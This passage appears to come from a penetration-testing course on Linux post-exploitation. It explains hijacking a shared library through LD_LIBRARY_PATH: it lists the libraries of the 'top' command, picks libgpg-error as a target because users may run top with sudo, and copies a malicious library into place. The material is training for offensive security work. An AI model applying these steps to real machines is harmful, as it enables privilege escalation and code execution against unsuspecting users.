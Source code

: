 Now that we have a malicious shared library, we need a place to use it. We want to hijack the library of a program that a victim is likely to run, especially as sudo. We also need to remember that whichever library we're hijacking will be unavailable to the requesting program. As such, we want to find something that won't break the system if all programs are prevented from using it.

Let's try targeting the _top_ command, which is used to display processes in real time on a Linux system. It's likely that a user might run this as sudo in order to display processes with elevated permissions, so it's a good candidate.

We'll run the ldd[6](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fn-local_id_436-6) command in the target machine on the top program. This will give us information on which libraries are being loaded when top is being run.

```
offsec@linuxvictim:~$ ldd /usr/bin/top
	linux-vdso.so.1 (0x00007ffd135c5000)
	libprocps.so.6 => /lib/x86_64-linux-gnu/libprocps.so.6 (0x00007ff5ab935000)
	libtinfo.so.5 => /lib/x86_64-linux-gnu/libtinfo.so.5 (0x00007ff5ab70b000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007ff5ab507000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ff5ab116000)
	libsystemd.so.0 => /lib/x86_64-linux-gnu/libsystemd.so.0 (0x00007ff5aae92000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ff5abd9b000)
	librt.so.1 => /lib/x86_64-linux-gnu/librt.so.1 (0x00007ff5aac8a000)
	liblzma.so.5 => /lib/x86_64-linux-gnu/liblzma.so.5 (0x00007ff5aaa64000)
	liblz4.so.1 => /usr/lib/x86_64-linux-gnu/liblz4.so.1 (0x00007ff5aa848000)
	libgcrypt.so.20 => /lib/x86_64-linux-gnu/libgcrypt.so.20 (0x00007ff5aa52c000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007ff5aa30d000)
	libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ff5aa0f8000)
```

> Listing 47 - Determining libraries run by the "top" utility

The last library listed appears to be a library for error reporting called LibGPG-Error.[7](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fn-local_id_436-7) This is likely to be loaded by the application but not likely to be called unless the program encounters an error, therefore this shouldn't prevent normal use of the application. Let's try to hijack that and find out what happens.

Note that it may require some trial and error to find a library that behaves favorably to run our code and not have adverse side effects on the system. Ideally, we want to target a library that also allows the program to run correctly even after our exploit is run, but this may not always be possible.

We set our environment variable for _LD\_LIBRARY\_PATH_ and rename our .so file to match the one we're hijacking.

```
offsec@linuxvictim:~/ldlib$ export LD_LIBRARY_PATH=/home/offsec/ldlib/

offsec@linuxvictim:~/ldlib$ cp libhax.so libgpg-error.so.0
```

> Listing 48 - Preparing the environment and shared library for exploitation

If we want to later turn off the malicious library functionality, we need to unset the environment variable using the _unset_ command. Our approach here does not modify the original shared library at all, so when the environment variable is unset, the original functionality is restored.
